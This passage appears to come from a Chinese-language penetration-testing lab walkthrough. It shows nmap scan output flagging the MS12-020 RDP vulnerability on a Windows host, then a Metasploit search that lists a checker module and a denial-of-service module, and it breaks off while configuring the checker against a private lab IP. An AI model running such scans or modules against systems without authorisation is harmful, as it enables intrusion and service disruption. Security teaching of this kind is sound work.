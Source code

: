 ```bash
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_      http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_ssl-ccs-injection: No reply from server (TIMEOUT)
5357/tcp  open   wsdapi?
49152/tcp open   unknown
49153/tcp open   unknown
49154/tcp open   unknown
49155/tcp open   unknown
49156/tcp open   unknown
49157/tcp closed unknown
49158/tcp open   unknown

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1188.52 seconds
```

- 通过上面的返回结果我们可以发现这里和Windows Server 2008有相同的漏洞，接下来我们就使用`msfconsole`的漏洞利用模块验证是否可以使用。

> CVE-2012-0152
> 
> CVE-2012-0002
> 
> - 这里一共搜索到两个模块。
> 
> ```bash
> ┌──(kali㉿kali)-[~/Downloads]
> └─$ proxychains4 msfconsole                                                                   
> [proxychains] config file found: /etc/proxychains4.conf
> [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
> [proxychains] DLL init: proxychains-ng 4.16
> msf6 > search ms12-020
> 
> Matching Modules
> ================
> 
>    #  Name                                              Disclosure Date  Rank    Check  Description
>    -  ----                                              ---------------  ----    -----  -----------
>    0  auxiliary/scanner/rdp/ms12_020_check                               normal  Yes    MS12-020 Microsoft Remote Desktop Checker
>    1  auxiliary/dos/windows/rdp/ms12_020_maxchannelids  2012-03-16       normal  No     MS12-020 Microsoft Remote Desktop Use-After-Free DoS
> 
> 
> Interact with a module by name or index. For example info 1, use 1 or use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
> ```
> 
> 使用`auxiliary/scanner/rdp/ms12_020_check`模块。
> 
> ```bash
> msf6 > use auxiliary/scanner/rdp/ms12_020_check
> msf6 auxiliary(scanner/rdp/ms12_020_check) > set rhosts 192.168.153.128